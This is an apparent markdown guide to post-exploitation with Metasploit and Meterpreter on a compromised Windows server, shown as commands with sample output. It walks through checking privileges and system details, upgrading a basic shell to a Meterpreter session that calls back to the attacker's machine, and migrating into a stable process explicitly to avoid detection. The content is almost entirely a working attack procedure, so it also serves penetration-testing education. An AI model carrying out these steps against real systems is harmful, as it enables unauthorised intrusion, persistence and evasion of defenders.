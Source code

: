 ```markdown
# Comprehensive Guide: Post-Exploitation & Vulnerability Assessment with Metasploit/Meterpreter

## 1. Initial Access & Session Stabilization

After successfully compromising the target and establishing a Meterpreter session, your first steps are critical.

### Initial Commands & Verification
```bash
# Check current user privileges
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE

# If not SYSTEM/root, note this for privilege escalation
meterpreter > getprivs
Attempting to get privileges...

# Gather comprehensive system information
meterpreter > sysinfo
Computer        : SRV-WEB01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : CORP
Logged On Users : 7
Meterpreter     : x64/windows

# Check if it's a virtual machine (useful for exploit selection)
meterpreter > run post/windows/gather/checkvm

# Background the session for further module use
meterpreter > background
[*] Backgrounding session 1...
```

### Session Stabilization & Upgrade
```bash
# If you have a basic shell, upgrade to Meterpreter
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Sending stage (200774 bytes) to 192.168.1.105
[*] Meterpreter session 2 opened (192.168.1.102:443 -> 192.168.1.105:49213)

# Migrate to a more stable process (critical for avoiding detection and session drops)
meterpreter > ps | grep -i explorer # Find a common, stable process
meterpreter > migrate 2484
[*] Migrating from 1332 to 2484...
[*] Migration completed successfully.
```

